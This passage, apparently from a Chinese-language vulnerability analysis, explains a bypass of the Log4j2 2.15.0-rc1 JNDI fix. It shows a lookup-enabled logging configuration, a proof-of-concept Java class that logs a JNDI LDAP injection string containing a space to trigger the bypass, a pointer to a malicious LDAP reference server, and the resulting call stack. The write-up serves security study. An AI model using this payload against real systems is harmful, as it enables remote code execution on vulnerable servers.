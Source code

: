 log4j2 配置文件如下：

```bash
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="warn" name="MyApp" packages="">
    <appenders>
        <console name="STDOUT" target="SYSTEM_OUT">
            <PatternLayout pattern="%msg{lookups}%n"/>
        </console>
    </appenders>
    <Loggers>
        <Root level="error">
            <AppenderRef ref="STDOUT"/>
        </Root>
    </Loggers>
</Configuration>
```

**对于第二点**，在 JndiManager 类的 lookup 方法中，最后捕获 URISyntaxException 异常的 catch 块没有进行如何处理及返回，这样还是能够执行到代码的最后一行  
因此，只要触发 URISyntaxException 异常，就可以绕过，触发漏洞。触发异常的方式是在 URL 中加入一个空格

### 测试代码：

```bash
package org.example;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class RC1Bypass {
    public static final Logger logger = LogManager.getLogger(RC1Bypass.class);

    public static void main(String[] args) {
        logger.error("${jndi:ldap://127.0.0.1:9999/ test}");

    }
}
```

并且构建一个 LDAP reference 服务，监听 9999 端口，具体代码参考 marshalsec：[https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java](https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java)

### 函数调用栈

```bash
getObjectFactoryFromReference:163, NamingManager (javax.naming.spi)
getObjectInstance:189, DirectoryManager (javax.naming.spi)
c_lookup:1085, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
lookup:257, JndiManager (org.apache.logging.log4j.core.net)
lookup:56, JndiLookup (org.apache.logging.log4j.core.lookup)
lookup:221, Interpolator (org.apache.logging.log4j.core.lookup)
resolveVariable:1110, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:1033, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replaceIn:890, StrSubstitutor (org.apache.logging.log4j.core.lookup)
format:186, MessagePatternConverter$LookupMessagePatternConverter (org.apache.logging.log4j.core.pattern)
toSerializable:343, PatternLayout$NoFormatPatternSerializer (org.apache.logging.log4j.core.layout)
toText:241, PatternLayout (org.apache.logging.log4j.core.layout)
```